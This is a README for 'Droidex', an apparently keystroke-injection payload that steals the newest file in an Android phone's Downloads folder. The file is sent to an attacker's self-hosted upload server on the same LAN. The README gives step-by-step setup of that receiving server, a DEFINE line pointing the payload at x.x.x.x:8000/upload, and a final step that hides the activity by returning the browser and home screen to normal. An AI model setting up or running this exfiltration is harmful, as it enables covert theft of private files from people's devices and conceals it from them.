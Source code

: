 REM TITLE: Droidex

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Android (tested on Samsung S24 FE | Android 15 | One UI 7.0)

Droidex exfiltrates the top file stored in the Downloads directory of target mobile device to a self-hosted python webserver over LAN. Both the attacker machine and target device must be connected to the same LAN. The payload will use Google Search to navigate to the self-hosted webserver and upload the file. After exfiltration, the browser will navigate to `google.com` and the device will return to the home screen to obfuscate activity.

**REQUIRED DEPENDENCIES**

Python module [uploadserver](https://pypi.org/project/uploadserver/)

 1. Install `uploadserver` on attack machine (`python3 -m pip install --user uploadserver`).
 2. Enter `ifconfig` in terminal of attack machine (Linux) to find machine IP address.
 3. Place the IP address found via `ifconfig` into line 6 (`DEFINE #IPA x.x.x.x:8000/upload`) of payload.txt.
 4. Start the webserver (`python3 -m uploadserver`).
 5. Perform attack.
 6. The file will be saved to the current working directory on the attacker machine where the server is being hosted from.

![Diagram](https://github.com/user-attachments/assets/08dddce3-65ee-4711-ac3b-682a1358e325)
